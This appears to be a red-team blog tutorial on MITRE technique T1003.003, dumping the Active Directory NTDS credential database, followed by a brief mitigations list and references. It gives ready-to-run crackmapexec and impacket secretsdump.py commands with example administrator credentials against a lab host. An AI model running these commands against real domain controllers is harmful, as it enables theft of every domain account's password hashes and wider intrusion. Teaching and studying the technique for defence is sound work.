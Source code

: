 ```yaml
---
title: NTDS 
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Credential Access]
tags: []  
---
```


# MITRE

- ID : `T1003.003`
- Tactic : `Credential Access`
- Platforms: `Windows`

# NTDS 

***Ntds*** file is a database that stores Active Directory data, including information about user objects, groups and group membership. Adversaries may attempt to access or create a copy of the Active Directory domain database in order to steal credential information, as well as obtain other information about domain members such as devices, users, and access rights.

# Exploitation

## CrackMapExec

We can dump ntds database with `crackmapexec` by executing the below command

```bash
crackmapexec smb 10.42.0.10 -u Administrator -p Password@123 --ntds

```

![ntds](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredntds1.png)

In the above image, we were able to dump ntds database.

## Secretsdump.py

We can also dump ntds credential with impackets `secretsdump.py`.

```bash
python3 secretsdump.py -use-vss cyber.local/Administrator:Password@123@10.42.0.10

```
![ntds](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredntds2.png)

![ntds](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredntds2rem.png)

In the above image, we were able to dump ntds database.

# Mitigations

- Ensure Domain Controller backups are properly secured.
- Ensure that local administrator accounts have complex, unique passwords across all systems on the network.
- Do not put user or admin domain accounts in the local administrator groups across systems unless they are tightly controlled.
- Limit credential overlap across accounts and systems by training users and administrators not to use the same password for multiple accounts.

# References

- [https://attack.mitre.org/techniques/T1003/002/](https://attack.mitre.org/techniques/T1003/003/)
- [https://atomicredteam.io/credential-access/T1003.003/](https://atomicredteam.io/credential-access/T1003.003/)
- [https://book.hacktricks.xyz/windows-hardening/stealing-credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials)
